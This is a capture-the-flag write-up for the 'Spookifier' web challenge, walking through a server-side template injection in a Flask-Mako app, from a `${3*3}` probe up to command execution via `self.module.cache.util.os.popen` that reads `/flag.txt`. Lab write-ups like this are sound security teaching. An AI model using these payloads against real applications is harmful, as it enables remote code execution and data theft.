





# Web CTF Challenge: Spookifier

## Challenge Description
There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

In this web challenge we are provided with the following page:

## Analysis

### Initial Interface


### Testing Basic Functionality
Let's first enter something to see what happens.

**Result:**


As we can see, it basically "spookifies" our input.

### Identifying the Vulnerability
What is interesting is how the site manages the call:
```
http://94.237.61.5:44437/?text=ddd
```

This makes us think about a **template literal exploit**. Let's try to give an input like `?text=${3*3}` to see if there is any logic interpreted in the backend.



And it works! As we can see, instead of displaying `${3*3}` it simply displayed `9`, which means the backend executes the logic.

### Source Code Analysis
As we see in the `routes.py` file that was provided to us, we have the following route:

```python
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html', output=converted)
   
    return render_template('index.html', output='')
```

The application uses **Flask-Mako** templating engine, which is vulnerable to Server-Side Template Injection (SSTI).

## Exploitation

### Testing Command Execution
We will try to see if we can execute other commands like `whoami` and display them on the site:
```
${self.module.cache.util.os.popen("whoami").read()}
```



We successfully get `root` which is our user!

### Getting the Flag
Now let's simply cat the flag:
```
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```

**Success:**


## Solution Summary

1. **Identified SSTI vulnerability** in Mako templating engine
2. **Tested with mathematical expression** `${3*3}` to confirm template injection
3. **Escalated to RCE** using `${self.module.cache.util.os.popen()}`
4. **Retrieved flag** with `cat /flag.txt`

---

**Vulnerability Type:** Server-Side Template Injection (SSTI) in Flask-Mako  
**Payload Used:** `${self.module.cache.util.os.popen("cat /flag.txt").read()}`  